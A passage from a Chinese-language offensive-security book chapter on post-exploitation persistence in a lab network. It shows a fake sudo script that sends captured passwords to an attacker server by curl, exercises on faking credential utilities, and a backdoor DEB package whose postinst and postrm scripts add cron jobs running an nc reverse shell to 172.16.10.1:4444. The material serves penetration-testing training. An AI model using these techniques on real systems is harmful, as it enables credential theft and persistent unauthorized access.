在 ❷ 处，我们通过使用 stty -echo 关闭输入回显。然后，我们从用户那里读取输入，并呈现类似 sudo 的提示符 ❸。由于输入是用户的密码，在用户输入密码时不应该明文显示。这是因为，默认情况下，sudo 在用户输入时隐藏输入，我们需要模拟原始命令的外观和感觉。因此，我们在接受用户输入之前禁用输入回显。

接下来，我们通过使用 leak_over_http() 函数泄漏提供的密码。该函数将使用 base64 对密码进行编码，并使用 curl 发起 HTTP GET 请求到 web 服务器的路径，使用捕获的密码作为路径 ❶。

在 ❹ 处，我们打开输入回显并传递密码，以及用户执行的命令到真正的 sudo 二进制文件 (*/usr/bin/sudo*)，以便 sudo 执行正常恢复。图 10-1 从头到尾展示了这个流程。



图 10-1：使用虚假 sudo 脚本进行密码拦截流程

最后，在您的 Kali 机器上，使用 Python 运行一个简单的 HTTP 服务器：

```
$ **python -m http.server 8080**

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/)... 
```

然后打开另一个终端到 *p-jumpbox-01* (172.16.10.13) 并运行一个 sudo 命令：

```
$ **sudo vi --help**

[sudo] password for backup: 
```

您应该收到泄露的密码：

```
172.16.10.13 - - [22:59:32] "GET **/YmFja3VwCg** HTTP/1.1" 404 -
```

粗体的 base64 编码字符串是 *backup*，即备份用户的密码。

您可以在 *[`github.com/dolevf/Black-Hat-Bash/blob/master/ch10/fake_sudo.sh`](https://github.com/dolevf/Black-Hat-Bash/blob/master/ch10/fake_sudo.sh)* 找到此脚本。

练习 21：劫持密码实用程序

您可以使用类似于我们刚刚执行的 sudo 攻击的方法来劫持其他实用程序。任何与凭据交互的工具都可以帮助您获得持久性，包括以下内容：

passwd 用于更改本地用户密码

chpasswd 用于批量更新密码

htpasswd 用于设置或更改 Apache 基本认证

smbpasswd 用于更改 Samba 用户密码（例如 Active Directory 用户密码）

ldappasswd 用于更改轻量级目录访问协议用户密码

尝试编写一个接受密码作为输入的虚假命令。以下是如何操作的指南：

1.  使用 man 来了解目标实用程序。

2.  尝试使用该工具，记录它如何提示用户输入密码，产生什么类型的输出以及如何处理错误。

3.  创建一个可以生成相同输出并接受相同输入的虚假实用程序。

4.  根据前一节的 sudo 脚本进行修改，以适应新的虚假实用程序，或者从头开始创建一个新脚本。

## 分发恶意包

Linux 系统根据发行版使用不同的包管理器，如 Debian（DEB）和 RPM。这些安装程序很有趣，因为它们允许你将自己的文件打包，并且如果你能让别人安装你开发的恶意包，你可能会通过后门攻击系统。在接下来的章节中，我们将探讨 DEB 包管理系统。然后我们将创建包含恶意代码的包。

请注意，Linux 上的软件安装默认需要 root 权限；普通用户不能使用诸如 dpkg -i package 或 rpm -i package 之类的命令，除非他们特别被授予对这些工具的特权访问权限。

### 理解 DEB 包

你会发现 DEB 包被 Debian Linux 发行版及其衍生版（如 Ubuntu）使用。DEB 包是 *ar*（归档）文件，包含三个文件：*debian-binary*，控制归档文件和数据归档文件。

*debian-binary* 文件是一个文本文件，包含包的版本号，例如 2.0。*control archive* 是一个压缩文件，包含脚本和元数据。*data archive* 包含包应安装的文件（例如，软件的手册页或额外的二进制文件）。

在我们自己构建包之前，让我们先看一个示例包。下载示例 DEB 包，*example_amd64.deb*。然后运行 dpkg --info 命令查看包的信息：

```
$ **dpkg --info example_amd64.deb**

new Debian package, version 2.0.
 size 784 bytes: control archive=420 bytes.
     168 bytes,     6 lines      control
      79 bytes,     3 lines   *  postinst             #!/bin/bash
 Package: example
 Version: 1.0.0
 Maintainer: Black Hat Bash (info@blackhatbash.com)
 Description: My awesome package
 Homepage: https://blackhatbash.com
 Architecture: all 
```

接下来，运行 strings 命令查看包的内容。你应该会看到我们讨论过的三个文件：

```
$ **strings example_amd64.deb**

!<arch>
debian-binary   1694828481  0     0     100644  4
control.tar.xz  1694828481  0     0     100644  420
YZdata.tar.xz   1694828481  0     0     100644  172
`--snip--` 
```

最后，安装该包以查看它的作用。你可以在实验室的任何机器上或 Kali 上执行此操作：

```
$ **sudo dpkg -i example_amd64.deb**

Selecting previously unselected package example.
(Reading database ... 423743 files and directories currently installed.)
Preparing to unpack example_amd64.deb ...
Unpacking example (1.0.0) ...
Setting up example (1.0.0) ...

**I don't do anything other than echoing this to the screen!** 
```

如你所见，除了在屏幕上打印一条消息外，包没有做任何特殊的事情。可以将其视为 DEB 包的 “Hello, world!”。

要提取 *.deb* 文件的内容，可以使用 ar 命令：

```
$ **ar -v -x example_amd64.db**

x - debian-binary
x - control.tar.xz
x - data.tar.xz 
```

v 标志用于详细模式；x 标志用于提取，接受文件名。为了进一步提取 *control.tar.xz* 和 *data.tar.xz* 文件，你可以使用 tar 命令，带上 -x（提取），-v（详细）和 -f（文件）：

```
$ **tar -xvf control.tar.xz**
$ **tar -xvf data.tar.xz** 
```

DEB 包可以包含几种类型的脚本。对我们来说最有趣的是 *inst*（安装）和 *rm*（删除）脚本。*安装脚本* 负责包的引导过程。它们包括预安装脚本 (*preinst*)，在包安装之前执行，和后安装脚本 (*postinst*)，在包安装之后执行。这些脚本可以执行任何任务，但一些常见的任务包括创建目录、设置权限和复制文件。

*rm 脚本* 执行某种清理操作，例如删除文件或停止服务。这些包括 *prerm* 脚本，它们在包最终被删除之前执行诸如删除符号链接或与包相关的文件的操作，以及 *postrm* 脚本，它们在包被删除后清理文件。你能想到在这些脚本中包含恶意代码的方式吗？

### 打包无害软件

让我们通过制作自己的无害包来练习创建包。在你的 Kali 机器上，创建一个名为 *example* 的目录：

```
$ **mkdir /tmp/example && cd /tmp/example**
```

接下来，在 *example* 目录中创建一个名为 *DEBIAN* 的目录：

```
$ **mkdir DEBIAN**
```

在 *DEBIAN* 目录中创建一个名为 *control* 的文件，包含以下包元数据，并保存文件：

```
Package: example
Version: 1.0.0
Maintainer: Your Name
Description: Example
Homepage: https://nostarch.com
Architecture: all 
```

然后使用 dpkg -b（构建）来构建包。-b 的第一个参数是包含要打包文件的目录名称，接着是生成的工件名称：

```
$ **dpkg -b example example_amd64.deb**
$ **ls -l**

drwxr-xr-x 3 kali kali 4096 Sep 17 20:33 example
-rw-r--r-- 1 kali kali  684 Sep 17 21:22 example_amd64.deb 
```

我们可以使用 sudo dpkg -i package 安装此包，并使用 sudo dpkg -r package 卸载它。

### 使用 alien 转换包格式

其他 Linux 发行版使用不同的包格式。幸运的是，我们可以通过使用一个名为 alien 的工具将包从一种格式转换为另一种格式（例如，从 RPM 转换为 DEB 或从 DEB 转换为 RPM）。Kali 系统应该预装了 alien，如果没有，可以使用 sudo apt install alien 命令安装它。

以下示例将 DEB 包转换为 RPM 包：

```
$ **sudo alien -v -r bksh_amd64.deb --scripts**

  dpkg-deb --info 'bksh_amd64.deb' control 2>/dev/null
`--snip--`
  dpkg-deb --info 'bksh_amd64.deb' preinst 2>/dev/null
  dpkg-deb --info 'bksh_amd64.deb' prerm 2>/dev/null
  mkdir bksh-1.0.0
  chmod 755 bksh-1.0.0
`--snip--`
bksh-1.0.0-2.noarch.rpm generated 
```

我们使用参数-v（详细模式）、-r 包（其中 *r* 代表 *rpm 转换*）和 --scripts 来告诉 alien 使用详细输出，将包转换为 RPM 格式，并包含我们之前创建的前后脚本。

将 RPM 包转换回 DEB 格式只需要将 -r 参数改为 -d 即可。

练习 22：编写恶意包安装程序

我们可以通过几种方式创建一个恶意包安装程序，以便在系统上保持持久性：

+   通过入侵一个中央软件仓库，比如本地的 APT 仓库

+   通过入侵一个具有安装包权限的帐户

+   通过将恶意包作为钓鱼活动的一部分发送给系统管理员

第一种场景中提到的 APT 仓库是一个包含 DEB 包数据库的 Web 服务器。网络中的消费者，如服务器或终端用户，可以使用 APT 仓库将包下载到他们的操作系统并进行安装。你会在那些未直接连接互联网或专为只从受信任源安装软件的网络中看到这种设置。

让我们创建一个包含恶意脚本的 DEB 包，供上述某些场景使用。具体来说，我们将使用 *postinst* 和 *postrm* 脚本来部署并保持一个反向 shell。将你的包命名为 *bksh*，即 *后门 shell*，并创建一个 *control* 文件，如《包装无害软件》一节中所讨论的 第 253 页。接下来，在 *DEBIAN* 目录中创建 *postinst* 和 *postrm* 文件，并设置它们的权限：

```
$ **touch postinst postrm**
$ **chmod 775 postinst postrm** 
```

你的目录结构应该如下所示：

```
$ **tree bksh**

bksh
└── DEBIAN
     ├── control
     ├── postinst
     └── postrm

2 directories, 3 files 
```

将 *postinst* 脚本填充为一个调用反向 shell 的 bash 脚本。例如，列表 10-9 中的脚本将通过使用系统范围的 crontab 文件 */etc/crontab* 来连接 Kali 机器：

```
#!/bin/bash

if ! grep -q "4444" /etc/crontab; then
  echo "* * * * * root nc 172.16.10.1 4444 -e /bin/bash" >> /etc/crontab
fi 
```

列表 10-9：使用 /etc/crontab 进行反向 shell 回调

当用户第一次安装软件包时，一条记录将写入到 */etc/crontab*。这个用户可以是 root 用户，也可以是任何可以使用 dpkg 等工具安装软件包的用户。为了确保我们只写入一次此记录，我们使用 grep 来检查文件中是否存在字符串 4444，然后再进行实际修改。

接下来，将 *postrm* 脚本填充为另一个反向 Shell。这次，cron 作业将属于执行软件包移除的用户，而不会是系统级的：

```
#!/bin/bash

if ! grep -q "4444" /var/spool/cron/crontabs/root 2> /dev/null; then
  echo "* * * * * nc 172.16.10.1 4444 -e /bin/bash" | crontab - -u root
fi 
```

第二个脚本提供了一个回退机制，用于在此软件包从系统中移除时。

你可以作为练习的扩展，开发额外的回退持久化机制。例如，如果系统显示有运行 Web 服务器进程并指向常见的 Web 目录，如 */var/www/html*，可以尝试写一个小的 Web Shell 文件到系统中。

要测试这个软件包，先构建它，然后在你的 Kali 机器上启动一个 Netcat 反向 Shell。将软件包复制到其中一台实验室机器上，例如 *p-jumpbox-01*（172.16.10.13），并使用 *root* 用户安装它：

```
# **dpkg -i bksh_amd64.deb**
```

然后验证是否可以在 */etc/crontab* 中看到反向 Shell 的 cron 作业：

```
$ **grep 4444 /etc/crontab**
```

大约一分钟后，你应该能看到反向 Shell 连接到你的 Kali Netcat 监听器。要测试 *postrm*，从 *p-jumpbox-01* 移除软件包，然后检查 *root* 用户的 crontab。

## 总结

在本章中，你学到了许多使用 bash 在入侵后的阶段保持访问的方法。我们将恶意逻辑引入了 PAM 模块、系统配置文件、文本编辑器和伪造的工具。我们还启用了休眠账户并添加了恶意的 SSH 密钥，然后使用 DEB 格式打包了恶意软件。
